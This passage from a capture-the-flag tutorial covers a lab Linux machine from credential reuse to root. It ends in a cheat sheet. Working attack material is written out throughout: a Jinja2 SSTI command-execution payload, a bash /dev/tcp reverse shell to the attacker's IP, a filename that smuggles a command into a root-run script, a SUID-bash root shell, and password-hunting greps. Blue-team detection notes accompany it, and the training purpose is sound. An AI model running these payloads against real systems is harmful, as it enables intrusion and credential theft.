There's the `mreynolds` account the FTP note named. Its home is `drwxr-x---` — readable only by `mreynolds` and its group, **not** by `www-data`. So we can't just walk in and read `user.txt`; we need to *become* `mreynolds` first. That's the first pivot.

### Hunt for credentials

The FTP note said creds are **reused**. Where do Flask apps keep secrets? In config files, environment files, and source. Let's look at our own app directory:

```bash
cd /var/www/forge
ls -la
```
```
-rw-r--r-- 1 root     root      2210 Feb 14  2024 app.py
-rw-r----- 1 root     www-data   142 Feb 14  2024 config.py
drwxr-xr-x 2 root     root      4096 Feb 14  2024 templates
drwxr-xr-x 3 root     root      4096 Feb 14  2024 static
```

`config.py` is `-rw-r----`, group `www-data` — **we can read it** (we're in the www-data group):

```bash
cat config.py
```
```python
import os

SECRET_KEY = "f0rg3-fl4sk-s3cr3t-2024"
DB_USER = "forge_app"
DB_PASS = "St33lTheD0m4in!2024"
UPLOAD_FOLDER = "/var/www/forge/uploads"
DEBUG = False
```

A password: `St33lTheD0m4in!2024`. The note said staging creds are reused — so this app-DB password might also be `mreynolds`'s login password. **Credential reuse is one of the most common privesc pivots in both CTFs and real life.** Test it by switching user:

```bash
su mreynolds
```
- `su` — "switch user"; prompts for `mreynolds`'s password. Paste `St33lTheD0m4in!2024`.

```
Password:
mreynolds@forge:/var/www/forge$ id
uid=1000(mreynolds) gid=1000(mreynolds) groups=1000(mreynolds),27(sudo)
```

**We are now `mreynolds`** — a real user (`uid=1000`), and notice `groups=…,27(sudo)`: this account is in the **sudo group**, which is a giant flashing sign for privilege escalation (more on that in a moment). First, the payoff for reaching a real user:

```bash
cat /home/mreynolds/user.txt
```
```
a3f9c1e7b2d84056f1a9c3e7b0d5482f
```

**User flag captured.** On HTB you'd paste that hex string into the "user flag" box to score. Halfway there.



> **CTF note — credential reuse and 'loot the config'.** Reading app config, `.env` files, `wp-config.php`, database dumps, and bash history for reused passwords is one of the highest-yield moves after a foothold. Always run, at minimum: `cat` on every config you can read, `history`, `env`, and a `grep -ri password` over readable app directories. The password you need is very often already on the box.

> **Blue-team note.** Plaintext secrets in source/config are a top real-world finding — this is what secret-scanners (gitleaks, trufflehog) and tools like HashiCorp Vault exist to prevent. Reusing an application's DB password as a human's login password is exactly the mistake that turns one compromised service into a compromised user. Detection: file-integrity monitoring on config files, and alerting on `su` to interactive users from service accounts.

---

## Phase 7 — Privilege Escalation: From User to Root

Privilege escalation is the art of turning a normal account into `root`. There are dozens of vectors; on any given box, one or two apply. The professional approach is: **enumerate methodically, don't guess randomly.** We'll do both a manual pass (so you understand *what* to look at) and an automated pass (so you don't miss anything).

### The manual privesc checklist (learn this order)



Start with the single highest-yield check: **`sudo -l`.**

```bash
sudo -l
```
- **`sudo`** lets a permitted user run specific commands *as another user* (usually root). `sudo -l` **l**ists exactly what the current user is allowed to run. This is always the first thing to check — it's low-effort and frequently the whole answer.

```
Matching Defaults entries for mreynolds on forge:
    env_reset, mail_badpass, secure_path=/usr/sbin:/usr/bin:/sbin:/bin

User mreynolds may run the following commands on forge:
    (root) NOPASSWD: /usr/bin/python3 /opt/forge/maintenance.py
```

Read this carefully — it's the intended root path:

- `(root)` — we can run the command *as root*.
- `NOPASSWD` — without even entering a password.
- `/usr/bin/python3 /opt/forge/maintenance.py` — specifically, run that one Python script with the real Python interpreter.

So `mreynolds` can execute `/opt/forge/maintenance.py` as root. The question becomes: **can we control what that script does?** Look at it:

```bash
ls -la /opt/forge/maintenance.py
cat /opt/forge/maintenance.py
```
```
-rwxr-xr-x 1 root root 486 Feb 14 2024 /opt/forge/maintenance.py
```
```python
#!/usr/bin/env python3
import os

# Rotate and archive old Forge logs
LOG_DIR = "/var/www/forge/logs"

def rotate():
    for f in os.listdir(LOG_DIR):
        path = os.path.join(LOG_DIR, f)
        if f.endswith(".log"):
            os.system(f"gzip -f {path}")

if __name__ == "__main__":
    rotate()
```

The script file itself is owned by root and not writable by us (`-rwxr-xr-x root root`), so we can't edit it directly. But look at the vulnerable primitive: it calls **`os.system(f"gzip -f {path}")`** — building a shell command by string-formatting a **filename** straight into it. That's **command injection via a crafted filename.** `path` comes from whatever files exist in `/var/www/forge/logs`. If we can create a file there whose *name* contains shell metacharacters, `gzip -f <ourname>` will execute our injected command — **as root**, because sudo runs the whole script as root.

Check we can write to that log directory:

```bash
ls -ld /var/www/forge/logs
```
```
drwxrwxr-x 2 root mreynolds 4096 Feb 14 2024 /var/www/forge/logs
```

Group `mreynolds`, group-writable (`rwx` for group). **We can create files there.** Now craft a filename that breaks out of the `gzip` command. Because the script runs `gzip -f {path}` **without quotes**, a filename containing `;` and spaces is re-parsed by the shell as multiple commands. Point the injection at a payload script we control:

```bash
# create our payload script
cat > /tmp/pwn.sh <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod u+s /tmp/rootbash
EOF
chmod +x /tmp/pwn.sh

# create a file whose NAME injects the command; it still ends in .log to pass the endswith filter
cd /var/www/forge/logs
touch 'a.log; bash /tmp/pwn.sh; x.log'
```

The crafted filename is `a.log; bash /tmp/pwn.sh; x.log`. When the root script runs `gzip -f a.log; bash /tmp/pwn.sh; x.log` (unquoted), the shell parses **three** commands: `gzip -f a.log`, then **`bash /tmp/pwn.sh`** (our payload, executed as root), then `gzip -f x.log`. The name ends in `.log`, so it survives the script's `endswith(".log")` filter.

Trigger it by running the sudo-allowed script:

```bash
sudo /usr/bin/python3 /opt/forge/maintenance.py
```

The script iterates the log dir, hits our crafted filename, and `os.system` executes our injected `bash /tmp/pwn.sh` as root. Check the result:

```bash
ls -la /tmp/rootbash
```
```
-rwsr-xr-x 1 root root 1396520 Feb 14 2024 /tmp/rootbash
```

The `s` in `-rwsr-xr-x` is the **SUID bit**: this copy of bash now runs *with the file owner's privileges* (root) regardless of who launches it. Launch it, preserving root:

```bash
/tmp/rootbash -p
```
- `-p` — **preserve** privileges (by default bash drops elevated privileges on startup; `-p` keeps the effective root UID).

```
rootbash-5.1# id
uid=1000(mreynolds) gid=1000(mreynolds) euid=0(root) groups=1000(mreynolds),27(sudo)
```

**`euid=0(root)` — we are root.** Grab the final flag:

```bash
cat /root/root.txt
```
```
7d2b91f4a6c03e58b19d7f240ac6e831
```

**Root flag captured. The box is rooted, boot to root.**

> **The SUID-bash trick, explained.** Copying `/bin/bash` and setting it SUID-root (`chmod u+s`) is the canonical "make me a root shell" primitive because a SUID-root program runs with root's effective UID. `bash -p` is required because modern bash deliberately drops privileges unless told to preserve them — a hardening measure that `-p` opts out of. This pattern (`cp bash; chmod +s; bash -p`) shows up on countless boxes once you have any way to run one command as root.

### The alternative you'd try if there were no sudo entry

Not every box hands you `sudo -l`. The next check is **SUID binaries** — programs that already run as their owner (often root):

```bash
find / -perm -4000 -type f 2>/dev/null
```
- `find /` — search the whole filesystem.
- `-perm -4000` — files with the SUID bit set (the `4000` octal permission).
- `-type f` — regular files only.
- `2>/dev/null` — discard the flood of "Permission denied" errors so you only see hits.

You then cross-reference any *unusual* result against **[GTFOBins](https://gtfobins.github.io)** — a curated database of standard Unix binaries and the exact syntax to abuse each one for privesc when it's SUID or sudo-allowed. Finding `find`, `nmap`, `vim`, `python`, `tar`, or `less` in that list with a SUID bit is very often an instant root. GTFOBins is the single most important reference for Linux privesc; bookmark it.

### The automated pass — always run it too

Even experienced players run an automated enumerator to catch what the eye misses. **LinPEAS** (Linux Privilege Escalation Awesome Script) checks hundreds of vectors and colour-codes findings by likelihood.

Transfer it to the box (host it from Kali, pull it on the target):

```bash
# On Kali, in the directory containing linpeas.sh:
python3 -m http.server 8000
```
- Serves the current directory over HTTP on port 8000 — the fastest way to move a file onto a target.

```bash
# On the target:
cd /tmp
wget http://10.10.14.7:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas-out.txt
```
- `wget` — download the script from our Kali web server.
- `chmod +x` — make it executable.
- `./linpeas.sh | tee linpeas-out.txt` — run it, printing to screen *and* saving to a file (`tee`) so you can search the output afterwards.

LinPEAS would have flagged both the `sudo -l NOPASSWD` entry (highlighted bright red/yellow as "95% PE vector") and the writable log directory referenced by a root-run script. On this box it confirms the manual finding; on a harder box it might surface the *only* vector you'd otherwise miss (a subtle capability, a cron job, a password in a log). **Run manual checks to learn; run LinPEAS so you don't lose.**

> **Blue-team note — privesc detection.** The root-side signals here: a filename containing shell metacharacters (`;`, spaces) appearing in a monitored directory; `os.system`/`gzip` spawning an unexpected child `bash`; a new SUID binary appearing in `/tmp` (`auditd` watching `chmod`/SUID changes catches this instantly); and `bash -p` running with `euid=0` from a non-root user. The root cause — building a shell command from an untrusted filename — is a real CVE pattern; the fix is `subprocess.run([...], shell=False)` with argument lists, never `os.system(f"... {untrusted}")`. And `NOPASSWD` on a script that touches attacker-writable input is a sudoers misconfiguration a review should catch.

---

## Full Kill Chain in One Picture

```mermaid
flowchart TD
    START[IP: 10.10.11.42] --> NMAP[nmap: 21 ftp, 22 ssh, 80 http]
    NMAP --> FTP[Anon FTP -> notes-to-dev.txt<br/>leaks /workshop, Jinja hint, mreynolds, reuse]
    NMAP --> WEB[whatweb: Flask + Jinja2]
    FTP --> WS[/workshop SSTI]
    WEB --> WS
    WS -->|7*7=49, 7 times '7'=7777777| CONF[SSTI confirmed]
    CONF -->|__globals__.os.popen| RCE[RCE as www-data]
    RCE --> REV[reverse shell + TTY]
    REV --> LOOT[read config.py -> DB_PASS]
    LOOT -->|credential reuse| USER[su mreynolds]
    USER --> UFLAG[user.txt]
    USER -->|sudo -l: NOPASSWD python maintenance.py| INJ[filename command injection]
    INJ --> SUID[SUID root bash in /tmp]
    SUID --> ROOT[root shell]
    ROOT --> RFLAG[root.txt]
```

Every arrow is a decision, and every decision was driven by a clue we *found by enumerating*, not by guessing. That is the whole game.

---

## The Methodology, Abstracted (so it transfers to any box)

The specific vulns change every box; the **loop** does not. Internalise this and you can approach any target cold:

| Phase | Question you're answering | Primary tools | "Enumerate harder" means… |
|-------|---------------------------|---------------|----------------------------|
| Recon | What ports/services exist? | `nmap -p-`, then `-sC -sV` | Scan **all** ports; version-scan everything |
| Web enum | What pages/tech does the app expose? | `whatweb`, `gobuster`/`ffuf`, browser + dev tools | Try extensions, vhosts, read JS, check every status code |
| Foothold | How do I run one command? | The specific vuln (SSTI, SQLi, upload, LFI, CVE) | Test *every* input; confirm before escalating |
| Shell | How do I get an interactive shell? | `nc`, reverse shell, `pty.spawn`, `stty raw` | Stabilise before you do anything else |
| Local enum | Who am I, what can I read/reach? | `id`, `sudo -l`, `ls -la`, config files, `history`, `env` | Read every file you can; loot every secret |
| User | Where's the user flag / next pivot? | credential reuse, `su`, SSH keys | The password is usually already on the box |
| Privesc | How do I become root? | `sudo -l`, SUID `find`, cron, GTFOBins, LinPEAS | Manual checklist **and** automated scan |
| Root | Grab the flag, understand the chain | `cat /root/root.txt` | Write up *why* each step worked |

A second, blunter version of the same wisdom — the questions to ask yourself when you feel stuck:

| "I'm stuck" symptom | The real problem is usually… |
|---------------------|------------------------------|
| "No open ports look exploitable" | You didn't scan all 65k ports, or didn't `-sV` |
| "The website is just a static page" | You didn't `gobuster`, didn't check vhosts, didn't read the page source/JS |
| "I found a vuln but can't get a shell" | Wrong payload for the stack, or egress is filtered — try a different port (80/443) or a webshell |
| "I have a shell but can't find privesc" | You didn't run `sudo -l`, didn't check SUID/cron, didn't run LinPEAS, didn't read configs/history |
| "I found creds but they don't work" | Try them *everywhere* — every user, SSH, every service. Reuse is the point |

---

## Common Pitfalls (the mistakes that cost hours)

- **Scanning only the top-1000 ports.** The intended service is on 8080 and you never saw it. Always `-p-` once.
- **Ignoring a "boring" service.** Anonymous FTP with one text file *is* the lead. Read everything.
- **Not stabilising your shell**, then losing it to an accidental `Ctrl-C`. Do the `pty.spawn` + `stty raw` dance immediately.
- **Forgetting your own VPN IP**, so your reverse shell calls back to nowhere. `ip addr show tun0` and note it.
- **Guessing at privesc instead of enumerating.** `sudo -l` takes two seconds and is the answer more often than any exploit.
- **Not trying found credentials everywhere.** A DB password is also an SSH password is also a `su` password, over and over.
- **Rabbit-holing.** If you've spent 45 minutes forcing one idea, stop, re-read your notes, and go back to the phase you rushed. The path you missed is almost always in enumeration you did too fast.
- **Using loud, destructive payloads on real targets.** The lab tolerates `--min-rate 10000` and popping a shell; a real engagement or bounty does not. Match your aggression to the context.
- **Not taking notes.** You'll re-root the box mentally three times because you didn't write down what worked.

---

## Final Revision — The Chain in Plain Words

1. We had **only an IP.** `nmap -p-` then `-sC -sV` found FTP, SSH, and a Flask web app; the TTL (63) told us it was Linux.
2. **Anonymous FTP** leaked a dev note: a hidden `/workshop` path, a "Jinja runs whatever you type" hint, the username `mreynolds`, and a warning that credentials are reused.
3. **`whatweb`** confirmed Flask + Jinja2; **`gobuster`** confirmed `/workshop` was live. Every lead pointed at the same door.
4. `{{7*7}}→49` and `{{7*'7'}}→7777777` **confirmed Jinja2 SSTI**; walking `__globals__.os.popen` gave **RCE as www-data**.
5. A **reverse shell** through the SSTI, stabilised into a full TTY with `pty.spawn` + `stty raw -echo`.
6. Reading `config.py` leaked a DB password; **credential reuse** let us `su mreynolds` and read **`user.txt`**.
7. **`sudo -l`** revealed a `NOPASSWD` root script that built a shell command from a filename; **filename command injection** created a **SUID-root bash**, giving a **root shell** and **`root.txt`**.

The unifying lesson: **the box is solvable, and the solution is discoverable by enumeration.** Every step was unlocked by something we *found*, not something we guessed. When you're stuck, you haven't looked hard enough somewhere earlier in the chain.

---

## Cheat Sheet — Boot-to-Root Quick Reference

```bash
# --- CONNECT ---
sudo openvpn lab.ovpn                 # connect to lab VPN
ip addr show tun0                     # YOUR IP (note it!)
ping -c 3 <target>                    # up? TTL 64->Linux, 128->Windows

# --- RECON ---
nmap -p- --min-rate 10000 -T4 -oN allports.txt <target>   # all ports, fast
nmap -p <ports> -sC -sV -oN services.txt <target>         # deep: scripts+versions
nmap -sU --top-ports 20 <target>                          # quick UDP check

# --- WEB ENUM ---
whatweb http://<target>               # fingerprint stack
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 50
ffuf -u http://<target>/FUZZ -w <wordlist>                # alt fuzzer
# vhost fuzz: ffuf -u http://<target> -H "Host: FUZZ.target" -w <subdomains>

# --- SSTI (Jinja2/Flask) ---
{{ 7*7 }}                             # -> 49 confirms evaluation
{{ 7*'7' }}                           # -> 7777777 confirms Python/Jinja2
{{ cycler.__init__.__globals__.os.popen('id').read() }}   # RCE

# --- REVERSE SHELL ---
nc -lvnp 4444                         # listener on Kali
bash -c 'bash -i >& /dev/tcp/<YOURIP>/4444 0>&1'          # target callback
# stabilise:
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm ; # Ctrl-Z ; stty raw -echo; fg

# --- LOCAL ENUM ---
id ; sudo -l ; ls -la /home ; cat /etc/passwd
history ; env ; cat *config* .env 2>/dev/null
grep -rin password /var/www 2>/dev/null

# --- PRIVESC ---
sudo -l                               # ALWAYS FIRST
find / -perm -4000 -type f 2>/dev/null                    # SUID binaries -> GTFOBins
find / -writable -type d 2>/dev/null                      # writable dirs
cat /etc/crontab ; ls -la /etc/cron.*                     # cron jobs
# LinPEAS: (kali) python3 -m http.server 8000
#          (target) wget http://<YOURIP>:8000/linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh | tee out
cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash; /tmp/rootbash -p   # if you can run 1 cmd as root

# --- FLAGS ---
cat /home/*/user.txt ; cat /root/root.txt
```

Key references to keep open while playing: **GTFOBins** (`gtfobins.github.io`) for abusing SUID/sudo binaries, **PayloadsAllTheThings** (GitHub) for payloads of every vuln class, and **revshells.com** for a reverse-shell generator in every language.

---

## Practice Labs & Resources (train exactly these skills)

Nothing here is theoretical — every phase above maps to free, legal boxes you can root right now.

- **Overall boot-to-root reps (beginner → intermediate):**
  - **TryHackMe** — *Basic Pentesting*, *Vulnversity*, *Kenobi* (FTP → foothold, mirrors this box's FTP lead), *Blue*, and the *Offensive Pentesting* / *Jr Penetration Tester* paths.
  - **HackTheBox** — retired "Easy" Linux boxes with public write-ups; filter for tags **SSTI**, **command injection**, and **sudo**. HTB's **Starting Point** tier is the gentlest on-ramp and teaches the exact enumeration loop above.
  - **VulnHub** — download-and-run VMs (no VPN needed): the *Kioptrix* series and *Basic Pentesting: 1/2* are classic first roots.
- **SSTI specifically (the foothold here):**
  - **PortSwigger Web Security Academy** — the full **Server-Side Template Injection** topic with labs, free forever. Best way to drill the `{{7*7}}` → `__globals__` chain.
  - **HTB** boxes tagged SSTI; **PayloadsAllTheThings** "Server Side Template Injection" page for engine-by-engine payloads.
- **Reverse shells & stabilisation:**
  - **TryHackMe** — *What the Shell?* room (bind vs reverse, netcat, TTY upgrade — exactly Phase 5).
  - **revshells.com** to generate payloads; practise the `pty.spawn`/`stty raw` upgrade until it's muscle memory.
- **Linux privilege escalation (Phase 7):**
  - **TryHackMe** — *Linux PrivEsc* and *Linux PrivEsc Arena* (SUID, sudo, cron, PATH, capabilities — a guided tour of the whole checklist).
  - **GTFOBins** — read through the sudo/SUID entries for `find`, `python`, `vim`, `tar`, `less`, `nmap`; these recur constantly.
  - **pwn.college** for a deeper, from-first-principles treatment if you want the internals.
- **Exam-style, timed practice:** **Proving Grounds Practice** (Offensive Security) and **HTB** "OSCP-like" box lists — root them under a clock, writing a report as you go, to build the discipline the next chapter (report writing and CVSS) formalises.

Root ten boxes with real notes and the loop in this chapter stops being a checklist and becomes instinct — you'll read an `nmap` result and already know the next three moves. That instinct is the entire deliverable of this chapter, and it's what the next chapter turns into a professional report.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-capstone/02-solving-a-boot-to-root-ctf-machine-end-to-end-htb-thm-style), with comments and the latest edits.*
